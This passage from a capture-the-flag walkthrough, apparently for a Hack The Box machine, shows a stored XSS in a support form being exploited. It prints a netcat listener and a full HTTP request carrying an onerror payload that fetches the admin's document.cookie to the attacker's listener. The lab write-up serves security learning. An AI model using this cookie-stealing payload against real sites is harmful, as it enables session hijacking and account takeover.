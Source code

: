 Submitting this request give us the following response
![[Pasted image 20240605173806.png]]

Looks like it's sending those information to an admin.
If those info are being displayed on a browser, we might try to perform a XSS.
Just for testing purposes, we'll add a new http header and inject our payload into it.
We submit the following request and get back a request on our netcat listener.

![[Pasted image 20240605174324.png]]

```
┌─[tobaka@parrot]─[~/ctf/htb/machines/headless]
└──╼ $nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.80] from (UNKNOWN) [10.10.14.80] 41568
GET / HTTP/1.1
Host: 10.10.14.80:9001
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.11.8:5000/
DNT: 1
Connection: close

```

#### Cookie stealing

We can use the XSS vuln to steal admin's cookie and get access to the `/dashboard` endpoint.

```
POST /support HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.11.8:5000/support
Content-Type: application/x-www-form-urlencoded
Content-Length: 190
Origin: http://10.10.11.8:5000
DNT: 1
Connection: close
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1
Pwn: <img src="" onerror="fetch('http://10.10.14.80:9001/' + document.cookie);">

fname=tobaka&lname=tobaka&email=root%40tobaka.rocks&phone=3333333333&message=%3Cimg+src%3D%22%22+onerror%3D%22fetch%28%27http%3A%2F%2F10.10.14.80%3A9001%2F%27+%2B+document.cookie%29%3B%22%3E
```

After a while we receive a request with the admin's cookie.
